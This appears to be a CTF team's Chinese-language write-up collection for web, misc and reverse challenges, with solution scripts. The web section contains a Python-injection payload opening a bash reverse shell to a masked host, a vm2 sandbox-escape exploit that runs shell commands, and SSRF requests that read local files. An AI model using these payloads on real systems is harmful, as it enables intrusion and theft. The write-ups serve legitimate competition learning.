


# 0RAYS WriteUps

# Web

## intractable problem

```python
def factorization(n):
        a=1
'''
__import__('o'+'s').system("bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0>&1'");

'''
```

## escape-web

猜测就是远程 web 服务得到我们的代码后启动一个 docker 去执行，然后把结果保存在 docker 的 `/app/output.txt` 和 `/app/error.txt` 中，然后服务器调用 `docker cp` 把结果复制出来显示

用软链接，docker cp 从容器复制指向 /flag 的软链接到宿主机，然后用于读 flag

```javascript
// vm2 https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

function exec(cmd){
    obj = {
        [customInspectSymbol]: (depth, opt, inspect) => {
            console.log(inspect.constructor('return process')().mainModule.require('child_process').execSync(cmd).toString());
        },
        valueOf: undefined,
        constructor: undefined,
    }
    WebAssembly.compileStreaming(obj).catch(()=>{});
}
exec("rm -rf /app/output.txt;touch /flag;ln -s /flag /app/output.txt");
```


## short url

这里打个 ssrf 读文件


用 `;` 绕拦截器

url 编码绕白名单

```http
POST /share HTTP/1.1
Host: 1.95.4.251:57080
Content-Length: 223
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyvYRJHIabzTFmbTr
Connection: close

------WebKitFormBoundaryyvYRJHIabzTFmbTr
Content-Disposition: form-data; name="link"

http://127.0.0.1:8080/private;?%75%72%6c=http://127.0.0.1:8080/private;?url=file:///flag
------WebKitFormBoundaryyvYRJHIabzTFmbTr--
```

读 flag

```http
GET /test;?redirect=4M5bSJJD HTTP/1.1
Host: 1.95.4.251:57080
Connection: close
```


# Misc

## Checkin

签到题，去给定网址输入 Flag 就行。


## RAWaterMark

arw 是索尼相机的照片格式

看一下 exif


知道了尺寸


同时知道是个 Ycbcr 的图

不由的想到了 2021 西湖论剑 misc——Yusa 的小秘密

大致看了一下图片的结构


大概是个 4:1:1 的扫样模式

不过一般 ycbcr 主要就看 y，直接看 y 通道的 lsb

```python
from PIL import Image
from tqdm import trange
 

with open('image.ARW', 'rb') as f:
    raw_data = f.read()[565248:]

width = 6048
height = 4024
 
img1 = Image.new("L", (width, height))
img2 = Image.new("L", (width, height))
img3 = Image.new("L", (width, height))

#不清楚cb，cr的读取对不对
for y in trange(0,height):
    for x in range(0,width,4):
        y1 = raw_data[y * width * 2 + x * 2]
        y2 = raw_data[y * width * 2 + x * 2 + 2]
        y3 = raw_data[y * width * 2 + x * 2 + 4]
        y4 = raw_data[y * width * 2 + x * 2 + 6]

        cb1 = raw_data[y * width * 2 + x * 2 + 1] >> 2
        cb2 = raw_data[y * width * 2 + x * 2 + 3] >> 2
        cb3 = raw_data[y * width * 2 + x * 2 + 5] >> 2
        cb4 = raw_data[y * width * 2 + x * 2 + 7] >> 2
        cb = (cb1 << 6) + (cb2 << 4) + (cb3 << 2) + cb4

        cr1 = raw_data[y * width * 2 + x * 2 + 1] % 0b100
        cr2 = raw_data[y * width * 2 + x * 2 + 3] % 0b100
        cr3 = raw_data[y * width * 2 + x * 2 + 5] % 0b100
        cr4 = raw_data[y * width * 2 + x * 2 + 7] % 0b100
        cr = (cr1 << 6) + (cr2 << 4) + (cr3 << 2) + cr4

        img1.putpixel((x,y),y1 % 2 * 255)
        img1.putpixel((x+1,y),y2 % 2 * 255)
        img1.putpixel((x+2,y),y3 % 2 * 255)
        img1.putpixel((x+3,y),y4 % 2 * 255)

        img2.putpixel((x,y),cb % 2 * 255)
        img2.putpixel((x+1,y),cb % 2 * 255)
        img2.putpixel((x+2,y),cb % 2 * 255)
        img2.putpixel((x+3,y),cb % 2 * 255)

        img3.putpixel((x,y),cr % 2 * 255)
        img3.putpixel((x+1,y),cr % 2 * 255)
        img3.putpixel((x+2,y),cr % 2 * 255)
        img3.putpixel((x+3,y),cr % 2 * 255)

img1.save("flag1.png")
img2.save("flag2.png")
img3.save("flag3.png")
```


## End_of_Programming

题目描述给反了，A 是荤菜，B 是素菜

```python
你讲拿到一个oi题目，请写出完全符合要求的cpp代码，并且能够通过10组数据测试
题目描述
现在我们有a个人只爱吃肉，有b个人坚决不吃肉，也有c个人什么都吃。
食堂只提供m种菜，并且规定每种菜只可以买一次。第i个菜有一个价格Ci，并且有一个字符A或B，表示这是荤菜或是素菜。
现在希望喂饱尽量多的人，也希望在此前提下尽可能地减少花费。请你计算他最多能喂饱多少人，以及至少需要花费多少钱。

输入格式
第一行三个整数a,b,c 
接下来一行是一个整数m 
接下来m行，每行表示食品的价值和类别，A表示荤菜，B表示素菜。

输出格式
两个数，分别表示能够喂饱的人数量以及花费的总价值。

样例 #1
样例输入 #1
2 1 1
4
5 A
6 B
3 B
7 B
样例输出 #1
3 14

其中，对于10%的数据a = b = 0，30%的数据1<=a,b,c<=100，1<=m<=100，全部数据1<=a,b,c<=100000，1<=m<=300000，所有的Ci <= 100000000，请让你的代码能够处理这些范围的数据，一共需要通过十组数据，请给出完整代码并将代码用```围起来后输出，代码中a,b,c,m请改成long类型
```

```python
-------------------------
ChatGPT Output:
```cpp
#include <iostream>
#include <vector>
#include <algorithm>

using namespace std;

struct Food {
    int price;
    char type;
};

bool compare(Food a, Food b) {
    return a.price < b.price;
}

int main() {
    long a, b, c;
    cin >> a >> b >> c;
    
    long m;
    cin >> m;
    
    vector<Food> foods(m);
    for (int i = 0; i < m; i++) {
        cin >> foods[i].price >> foods[i].type;
    }
    
    sort(foods.begin(), foods.end(), compare);
    
    long totalCost = 0;
    long totalPeople = 0;
    
    for (int i = 0; i < m; i++) {
        if (foods[i].type == 'A') {
            if (a > 0) {
                totalCost += foods[i].price;
                totalPeople++;
                a--;
            } else if (c > 0) {
                totalCost += foods[i].price;
                totalPeople++;
                c--;
            }
        } else if (foods[i].type == 'B') {
            if (b > 0) {
                totalCost += foods[i].price;
                totalPeople++;
                b--;
            } else if (c > 0) {
                totalCost += foods[i].price;
                totalPeople++;
                c--;
            }
        }
    }
    
    cout << totalPeople << " " << totalCost << endl;
    
    return 0;
}
```
```


# Reverse

## ez_stack

栈虚拟机，我直接硬逆指令集。


主函数，有部分自解码可以调试获得


导出这部分内存即可，也可以手动解码。

继续看函数sub_4017A1，这是一台虚拟机，分析如下

```python
应该是虚拟机
addr是栈
*(&addr+8)是sp


虚拟机指令长度可变，根据指令第一字节的最低3bits决定参数长度。
参数长度（字节） == inst & 3

若参数长度为0则参数默认为1
否则取相应字节数按照大端序获得参数


addr(qword_406040)视为stack_code
qword_406050视为stack_a
qword_406060视为stack_b，用于记录已经执行的指令。通常配合0x20 goback来使用。同时也用作临时栈。


指令列表：

0x20 arg
goback
取出stack_b栈顶arg条指令并执行（压入stack_code）。
arg为0时没有效果。

0x30 arg
skip
跳过后续arg条指令

0x40 arg
push
将arg压入stack_a

0x50
rem
将stack_a顶端第arg个元素移除
arg为0时即移除栈顶元素。

0x60
copy
将stack_a顶端第arg个元素复制，压入栈stack_a
arg为0时即复制栈顶元素。

0x70 arg
cmpi
类似cmp，但是相加。

0x80 arg
cmp
arg|arg -> arg
取stack_a栈顶arg个元素记为块1，取stack_a后续arg个元素记为块2，将块2减去块1的结果压入栈stack_a（长度同样为arg）
若比较结果不为0，则跳过后续1条指令

0x90 arg
xor
类似cmp，但是异或。

0xc0 nbits, length, config
循环移位，移动位数为nbits，长度为length，config控制具体操作。
config & 3
0:左移
1:右移
2:循环左移
3:循环右移

0xd0 arg
read
从标准输入读取arg个字节依次压入stack_a

0xe0 arg
flush
打印stack_a到标准输出，长度为arg个字节


====
15 08
pushn 8
e5 '\x13'
43 'viG'
47 'm e'
47 'y e'
43 'ruo'
43 'lf '
47 ':ga'
41 '\n'
====
15 0e
pushn 14
55 00
55 00
25 0b
75 01
45 01
51 02
61 01
55 00

39 06
85 01
41 0a
65 00
d5 01
41 00
```

然后能写出反编译脚本

```python
fo = open('ezs_out.log', 'w')
def log(content : str, end='\n'):
    global fo
    fo.write(content)
    fo.write(end)

def disasm_print(code : bytes):
    ip = 0
    size = len(code)
    while ip < size:
        arg_n = code[ip] & 0x3
        arg = 1
        if arg_n > 0:
            arg = int.from_bytes(code[ip+1:ip+1+arg_n], 'big')
        inst = code[ip] & 0xf0

        log('0x%04x' % ip, end=' ')

        ip += arg_n + 1
        if inst == 0x0:
            log('pass')
        elif inst == 0x10:
            # print('pushn_exec 0x%x' % arg)
            log('pushn_exec 0x%x' % arg)
            inn_buf = []
            for i in range(arg):
                inn_arg_n = code[ip] & 0x3
                # print('0x%x %s' % (code[ip], str(code[ip+1:ip+1+inn_arg_n])))
                log('0x%x %s' % (code[ip], str(code[ip+1:ip+1+inn_arg_n])))
                inn_buf.append(code[ip:ip+1+inn_arg_n])
                ip += inn_arg_n + 1
            inn_buf.reverse()
            log('inner disasm:')
            disasm_print(b''.join(inn_buf))
            log('inner end')
        elif inst == 0x20:
            log('goback 0x%x' % arg)
        elif inst == 0x30:
            log('skip 0x%x' % arg)
        elif inst == 0x40:
            log('push 0x%x' % arg)
        elif inst == 0x50:
            log('rem 0x%x' % arg)
        elif inst == 0x60:
            log('copy 0x%x' % arg)
        elif inst == 0x70:
            log('cmpi 0x%x' % arg)
        elif inst == 0x80:
            log('cmp 0x%x' % arg)
        elif inst == 0x90:
            log('xor 0x%x' % arg)
        elif inst == 0xc0:
            inn_config = (arg >> 16) & 0x3
            inn_s = '<invalid>'
            if inn_config == 0:
                inn_s = 'shl'
            elif inn_config == 1:
                inn_s = 'shr'
            elif inn_config == 2:
                inn_s = 'loop_shl'
            elif inn_config == 3:
                inn_s = 'loop_shr'
            log('%s nbits=0x%x length=0x%x' % (inn_s, (arg >> 0) & 0xff, (arg >> 8) & 0xff))
        elif inst == 0xd0:
            log('read 0x%x' % arg)
        elif inst == 0xe0:
            log('flush 0x%x' % arg)
        elif inst == 0xf0:
            log('exit')
        else:
            # print('unknown inst 0x%x' % inst)
            log('unknown inst 0x%x' % inst)

if __name__ == '__main__':
    code = open('ezs_bin', 'rb').read()
    disasm_print(code)
```

得到结果很长，展示部分


几乎所有语句都是指令 0x10 pushn_exec。这个指令的作用是执行该指令后面的语句，并配合 stack_b 构建循环结构。故在解析该指令时应用了递归结构并逆序输出。

注意到指令字节的从低到高第 4 个 bit 未使用，这意味着 0x43 和 0x47 指令是等效的。

图示的代码（行 1 至行 19）是第一个语句块，用途是输出字符串"Give me your flag:\n"


第二个语句块，用于输入字符串直到输入换行符。这里使用了 cmp-skip 结构做分支结构。并且使用了 goback 指令实现循环。看懂这部分就能看懂所有指令了。

cmp 指令取出并比较栈顶的 2n 个元素并将结果入栈。若结果都为 0，则跳过下一条指令，除非下一条指令有标记 0x08


这部分是 ans

下面是进一步的分析，包括栈的记录

```python
print......


push 00                00
#goback here
read 01                00 x
copy 00                00 x x
push 0a                00 x x 0a
cmp 01                00 x (x-0a)
skip 06 (inv)
#neq
rem 00                00 x
copy 01                00 x 00
rem 02                x 00
push 01                x 00 01
cmpi 01                x 01
goback 0b
#eq
rem 00                00 x
rem 00                00

这段的结果为输入字符串序列以及长度，不含换行符
xx xx xx xx <length>


copy 0x0        xx xx <len> <len>
push 0x20        xx xx <len> <len> 20
cmp 0x1                xx xx <len> (<len>-20)
skip 0x5        
#neq
push 0xa        #print 'Wrong!'
push 0x21676e
push 0x6f7257
flush 0x6
exit
#eq
rem 0x0                xx xx <len>
rem 0x0                xx xx

判断输入字符串长度是否为0x20，同时移除字符串长度数据。


push 0x69a3
push 0x7f54
push 0xa751
push 0xaf43
push 0xc766
push 0x8fee
push 0xd5fe
push 0x5b26
push 0x9683
push 0x13da
push 0xb534
push 0x84e9
push 0x7751
push 0xa684
push 0x4b08
push 0x6a4b

压入一堆数据，用途暂时未知。后来知道是加密密钥
长度0x20


push 0x0000
push 0x0000
push 0x00

压入5个\x00
长度0x5

0x0000 push 0xb979                <flag|0x20> <data|0x20> <zeros|0x5> b9 79
0x0003 push 0x379e                <flag|0x20> <data|0x20> <zeros|0x5> b9 79 37 9e
0x0006 cmpi 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e
0x0008 pass
0x0009 copy 0x44                
0x000b copy 0x44
0x000d copy 0x44
0x000f copy 0x44
0x0011 copy 0x44
0x0013 copy 0x44
0x0015 copy 0x44
0x0017 copy 0x44                <flag|0x20> <data|0x20> 00 b9 79 37 9e <flag[0:8]>
0x0019 shr nbits=0x5 length=0x4                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5)
0x001d copy 0x30                
0x001f copy 0x30
0x0021 copy 0x30
0x0023 copy 0x30                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) <flag[0x1c:0x20]>
0x0025 shl nbits=0x3 length=0x4                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3)
0x0029 copy 0x4c
0x002b copy 0x4c
0x002d copy 0x4c
0x002f copy 0x4c                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3) <flag[4:8]>
0x0031 copy 0x13
0x0033 copy 0x13
0x0035 copy 0x13
0x0037 copy 0x13                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3) <flag[4:8]> b9 79 37 9e
0x0039 xor 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3) (<flag[4:8]> xor b9 79 37 9e)
0x003b copy 0x34
0x003d copy 0x34
0x003f copy 0x34
0x0041 copy 0x34                <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3) (<flag[4:8]> xor b9 79 37 9e) <data[0:4]>
0x0043 cmpi 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) (<flag[0x1c:0x20]> << 3) ((<flag[4:8]> xor b9 79 37 9e) + <data[0:4]>)
0x0045 xor 0x4
0x0047 xor 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] (<flag[4:8]> >> 5) xor (<flag[0x1c:0x20]> << 3) xor ((<flag[4:8]> xor b9 79 37 9e) + <data[0:4]>)
0x0049 cmpi 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e flag[0:4] + (<flag[4:8]> >> 5) xor (<flag[0x1c:0x20]> << 3) xor ((<flag[4:8]> xor b9 79 37 9e) + <data[0:4]>)
0x004b pass
0x004c copy 0x44
0x004e copy 0x44
0x0050 copy 0x44
0x0052 copy 0x44
0x0054 copy 0x44
0x0056 copy 0x44
0x0058 copy 0x44
0x005a copy 0x44                <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:0xc]>
0x005c shr nbits=0x5 length=0x4        <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> <flag[8:0xc]> >> 5
0x0060 copy 0xb                        
0x0062 copy 0xb
0x0064 copy 0xb
0x0066 copy 0xb                        <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> <flag[8:0xc]> >> 5 <xP1|0x4>
0x0068 shl nbits=0x3 length=0x4        <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> (<flag[8:0xc]> >> 5) (<xP1|0x4> << 3)
0x006c copy 0x4c
0x006e copy 0x4c
0x0070 copy 0x4c
0x0072 copy 0x4c                <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> (<flag[8:0xc]> >> 5) (<xP1|0x4> << 3) <flag[0x18:0x1c]>
0x0074 copy 0x17
0x0076 copy 0x17
0x0078 copy 0x17
0x007a copy 0x17                <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> (<flag[8:0xc]> >> 5) (<xP1|0x4> << 3) <flag[0x18:0x1c]> b9 79 37 9e
0x007c xor 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> (<flag[8:0xc]> >> 5) (<xP1|0x4> << 3) (<flag[0x18:0x1c]> xor b9 79 37 9e)
0x007e copy 0x34
0x0080 copy 0x34
0x0082 copy 0x34
0x0084 copy 0x34                <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> (<flag[8:0xc]> >> 5) (<xP1|0x4> << 3) (<flag[0x18:0x1c]> xor b9 79 37 9e) <data[4:8]>
0x0086 cmpi 0x4
0x0088 xor 0x4
0x008a xor 0x4
0x008c cmpi 0x4                        <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <flag[4:8]> + (<flag[8:0xc]> >> 5) xor (<xP1|0x4> << 3) xor ((<flag[0x18:0x1c]> xor b9 79 37 9e) + <data[4:8]>)
0x008e pass
0x008f copy 0x44                <flag|0x20> <data|0x20> 00 b9 79 37 9e <xP1|0x4> <xP2|0x4>
0x0091 copy 0x44
0x0093 copy 0x44
0x0095 copy 0x44
```

这个右移 5 左移 3 很像 tea 加密，且有循环累加的数 0x9e3779b9

通过调试修正加密函数代码。

最终脚本

```python
# start here
# 修改了很多，无视掉一些注释吧
# 尤其是大端/小端序的部分

# def bswitch4(a):
#     r = 0
#     for i in range(4):
#         r <<= 8
#         r |= (a >> (i * 8)) & 0xff
#     return r

# def ashr(a : int, nbits : int):
#     return bswitch4(bswitch4(a) >> nbits)

# def ashl(a : int, nbits : int):
#     return bswitch4(bswitch4(a) << nbits)

# key = [0x69a37f54, 0xa751af43, 0xc7668fee, 0xd5fe5b26, 0x968313da, 0xb53484e9, 0x7751a684, 0x4b086a4b]
key = [0x547fa369, 0x43af51a7, 0xee8f66c7, 0x265bfed5, 0xda138396, 0xe98434b5, 0x84a65177, 0x4b6a084b]
# ans = [0x3e55bc81, 0x0971ba74, 0x988147bd, 0xe63d5645, 0x61c6e862, 0xda790bd0, 0xced32fb1, 0x030216f5]
ans = [0x81bc553e, 0x74ba7109, 0xbd478198, 0x45563de6, 0x62e8c661, 0xd00b79da, 0xb12fd3ce, 0xf5160203]

def enc(flag : list[int], key : list[int]) -> list[int]:
    # delta = 0xb979379e
    delta = 0x9e3779b9
    s = 0
    for i in range(0x20):
        result = []
        s = (s + delta) & 0xffffffff
        last = flag[-1]
        for k in range(7):
            # t = flag[k] + (ashr(flag[k+1], 5) ^ ashl(last, 3) ^ ((flag[k+1] ^ s) + key[k]))
            t = flag[k] + ((flag[k+1] >> 5) ^ (last << 3) ^ ((flag[k+1] ^ s) + key[k]))
            t &= 0xffffffff
            result.append(t)
            last = t
        # t = flag[7] + (ashr(result[0], 5) ^ ashl(last, 3) ^ ((result[0] ^ s) + key[7]))
        t = flag[7] + ((result[0] >> 5) ^ (last << 3) ^ ((result[0] ^ s) + key[7]))
        t &= 0xffffffff
        result.append(t)
        flag = result
    return flag

def dec(flag : list[int], key : list[int]) -> list[int]:
    delta = 0x9e3779b9
    s = (delta * 0x20) & 0xffffffff
    for i in range(0x20):
        result = []
        # t = flag[7] - (ashr(flag[0], 5) ^ ashl(flag[6], 3) ^ ((flag[0] ^ s) + key[7]))
        t = flag[7] - ((flag[0] >> 5) ^ (flag[6] << 3) ^ ((flag[0] ^ s) + key[7]))
        t &= 0xffffffff
        last = t
        result.append(t)
        for k in range(6, 0, -1):
            # t = flag[k] - (ashr(last, 5) ^ ashl(flag[k-1], 3) ^ ((last ^ s) + key[k]))
            t = flag[k] - ((last >> 5) ^ (flag[k-1] << 3) ^ ((last ^ s) + key[k]))
            t &= 0xffffffff
            last = t
            result.append(t)
        # t = flag[0] - (ashr(last, 5) ^ ashl(result[0], 3) ^ ((last ^ s) + key[0]))
        t = flag[0] - ((last >> 5) ^ (result[0] << 3) ^ ((last ^ s) + key[0]))
        t &= 0xffffffff
        result.append(t)
        result.reverse()
        flag = result
        s = (s - delta) & 0xffffffff
    return flag

res = dec(ans, key)
rr = b''
for c in res:
    # print(hex(c))
    rr += int.to_bytes(c, 4, 'little')
print(rr)

# res = enc(res, key)
# for c in res:
#     print(hex(c))

# 测试用 
# print(hex(0x65666768 >> 5))
# print(hex(0x68676665 >> 5))
# print(hex(ashr(0x65666768, 5)))
```

## ez_rust

说是 rust

具体应该是 tauri 框架，gui 程序而且符号都删干净了。要找程序逻辑真的难。

请做出来的爹写一下 wp（磕头）

js 逆向,字符串搜索 `.js`


然后把 dump 下来的数据用 brotli 解压缩

```python
with open('js.bin','rb') as f:
    js = f.read()
decompressed = brotli.decompress(bytes(js))
with open('code.js','wb') as f:
    f.write(decompressed)
```

加密算法

```javascript
setup(e) {
        const t = ts(""),
        n = ts("");
        function s(o, i = "secret") {
            for (var c = "",
            u = i.length,
            d = 0; d < o.length; d++) {
                var h = o.charCodeAt(d),
                x = i.charCodeAt(d % u),
                w = h ^ x;
                c += String.fromCharCode(w)
            }
            return c
        }
        async
        function r() {
            if (n.value === "") {
                t.value = "Please enter a name.";
                return
            }
            btoa(s(n.value)) === "JFYvMVU5QDoNQjomJlBULSQaCihTAFY=" ? t.value = "Great, you got the flag!": t.value = "No, that's not my name."
        }
```

exp:

```python
import base64
f = "JFYvMVU5QDoNQjomJlBULSQaCihTAFY="
key = b"secret"
f = base64.b64decode(f)
flag=""
for i in range(len(f)):
    flag+=chr(key[i%len(key)]^f[i])
print(flag)
```

## babycom

PE64


输入 flag

中间有加载 dll 文件


这里是关键的加密


Ans

动态调试，这个程序从资源里加载了 dll 文件，也可以在运行时从临时文件获取


导出，拖进 IDA



可以找到与调试时一致的函数 sub_180005600

这里有个 tea 加密，密钥通过调试获得


下边还有 advapi32 的加密，同样调试获得

```cpp
#include <iostream>
#include <Windows.h>
#include <wincrypt.h>

int main()
{
    std::cout << "Hello World!\n";

    BYTE pbData[] =
    {
        0xEA, 0x3E, 0xD4, 0x1C, 0x70, 0xCB, 0xD7, 0x47, 0x98, 0x5E,
        0xCA, 0xDB, 0x53, 0x0C, 0x39, 0x2B
    };

    BYTE MultiByteStr[] =
    {
        0x7D, 0xAC, 0xD6, 0x60, 0x49, 0xEE, 0x97, 0x9F, 0x87, 0x8C,
        0x84, 0x61, 0xD4, 0xE0, 0x3A, 0x3D, 0x30, 0x50, 0x75, 0xD3,
        0xC3, 0xA3, 0xA6, 0x16, 0x68, 0x6E, 0xCB, 0x38, 0x57, 0xD1,
        0x1D, 0x23
    };

    unsigned int ans[] = { 0x2151AF0B, 0x8910529C, 0x30342C3F, 0x4CC11387, 0x6E817FC1, 0x43DFBDBA, 0xDED7F01A, 0x7CB9668E };

    DWORD pdwDataLen = 32;
    HCRYPTPROV phProv = 0i64;
    HCRYPTHASH phHash = 0i64;
    HCRYPTKEY phKey = 0i64;
    if (CryptAcquireContextA(&phProv, 0i64, 0i64, 0x18u, 0xF0000000)
        && CryptCreateHash(phProv, 0x8003u, 0i64, 0, &phHash)
        && CryptHashData(phHash, pbData, 0x10u, 0)
        && CryptDeriveKey(phProv, 0x660Eu, phHash, 1u, &phKey))
    {
        // CryptEncrypt(phKey, 0i64, 0, 0, (BYTE*)MultiByteStr, &pdwDataLen, 0x20u);
        CryptDecrypt(phKey, 0i64, 0, 0, (BYTE*)ans, &pdwDataLen);
    }

    std::cout << ans;
}
```

解密 ans（第一步）

接着逆一下 tea

```python
key = [0x1CD43EEA, 0x47D7CB70, 0x0DBCA5E98, 0x2B390C53]
test_flag = [0x34333231, 0x38373635, 0x32313039, 0x36353433, 0x30393837, 0x34333231, 0x38373635, 0x32313039]

ans = [0x2151AF0B,0x8910529C,0x30342C3F,0x4CC11387,0x6E817FC1,0x43DFBDBA,0xDED7F01A,0x7CB9668E]
ans_decrypted = [0x74c1b42a, 0x05aa59d6, 0x9c7f1073, 0x62994940, 0x8f51843c, 0xf1ab373f, 0x9661fe0e, 0x6a41ad45]

def enc(flag, key):
    result = []
    delta = 0x114514
    for i in range(4):
        a = flag[2 * i]
        b = flag[2 * i + 1]
        s = 0
        for j in range(32):
            a += ((s + key[s & 3]) ^ (b + ((b << 4) ^ (b >> 5))))
            a &= 0xffffffff
            s = (s + delta) & 0xffffffff
            b += ((s + key[(s >> 11) & 3]) ^ (a + ((a << 4) ^ (a >> 5))))
            b &= 0xffffffff
        result.append(a)
        result.append(b)
    return result

def dec(flag, key):
    result = []
    delta = 0x114514
    for i in range(4):
        a = flag[2 * i]
        b = flag[2 * i + 1]
        s = (delta * 32) & 0xffffffff
        for j in range(32):
            b -= ((s + key[(s >> 11) & 3]) ^ (a + ((a << 4) ^ (a >> 5))))
            b &= 0xffffffff
            s = (s - delta) & 0xffffffff
            a -= ((s + key[s & 3]) ^ (b + ((b << 4) ^ (b >> 5))))
            a &= 0xffffffff
        result.append(a)
        result.append(b)
    return result

the_flag = b''
r = dec(ans_decrypted, key)
for cc in r:
    # print(hex(cc))
    the_flag += int.to_bytes(cc, 4, 'little')
print(the_flag)

# r = enc(r, key)
# for cc in r:
#     print(hex(cc))
# print()
```

## dictionary compression

主函数逻辑

```python
table1 = [2, 4, 7, 9, 12, 13, 16, 18, 19, 23, 24, 27, 29, 31]
table2 = [3, 6, 8, 11, 14, 17, 21, 22, 26, 28]
table3 = [5, 10, 15, 20, 25, 30]

sample = 'bbccaacbcacbacbaaabcacbaaabccbcaccaaaaa'

def tob5(n):
    result = ''
    for i in range(5):
        result = ('1' if n & 1 else '0') + result
        n >>= 1
    return result

def compress(raw : str):
    stat = 31
    result = ''
    for ch in raw:
        s_stat = tob5(stat)

        cv = 99999
        if ch == 'a':
            cv = 14
        elif ch == 'b':
            cv = 10
        elif ch == 'c':
            cv = 6
        
        if stat > cv:
            if (stat >> 1) <= cv:
                stat = stat >> 1
                result += s_stat[4:5]
                result += '01'
            elif (stat >> 2) <= cv:
                stat = stat >> 2
                result += s_stat[3:5]
                result += '10'
            else:
                stat = stat >> 3
                result += s_stat[2:5]
                result += '11'
        else:
            result += '00'

        if ch == 'a':
            stat = table1[stat - 1]
        elif ch == 'b':
            stat = table2[stat - 1]
        elif ch == 'c':
            stat = table3[stat - 1]

        print('stat:%d' % stat)
    return result + tob5(stat)

res = compress(sample)
print(res)
```

输出到文件时还需加上总 bit 长度

逆一下

```python
table1 = [2, 4, 7, 9, 12, 13, 16, 18, 19, 23, 24, 27, 29, 31]
table2 = [3, 6, 8, 11, 14, 17, 21, 22, 26, 28]
table3 = [5, 10, 15, 20, 25, 30]

sample = 'bbccaacbcacbacbaaabcacbaaabccbcaccaaaaa'

def tob5(n):
    result = ''
    for i in range(5):
        result = ('1' if n & 1 else '0') + result
        n >>= 1
    return result

def compress(raw : str):
    stat = 31
    result = ''
    for ch in raw:
        s_stat = tob5(stat)

        cv = 99999
        if ch == 'a':
            cv = 14
        elif ch == 'b':
            cv = 10
        elif ch == 'c':
            cv = 6
        
        if stat > cv:
            if (stat >> 1) <= cv:
                stat = stat >> 1
                result += s_stat[4:5]
                result += '01'
            elif (stat >> 2) <= cv:
                stat = stat >> 2
                result += s_stat[3:5]
                result += '10'
            else:
                stat = stat >> 3
                result += s_stat[2:5]
                result += '11'
        else:
            result += '00'

        if ch == 'a':
            stat = table1[stat - 1]
        elif ch == 'b':
            stat = table2[stat - 1]
        elif ch == 'c':
            stat = table3[stat - 1]

        print('stat:%d' % stat)
    return result + tob5(stat)

# res = compress(sample)
# print(res)

def tob8(n):
    result = ''
    for i in range(8):
        result = ('1' if n & 1 else '0') + result
        n >>= 1
    return result

def print_ans():
    ans = [    0xEB, 0x3E, 0xA6, 0x8C, 0xE9, 0x13, 0xFB, 0x69, 0xE6, 0x3C, 0xD4, 0xDB, 0x5B, 0xEA, 0x4D, 0xB5,
        0x4D, 0xBA ]
    ans_s = ''.join([tob8(x) for x in ans])
    print(ans_s)

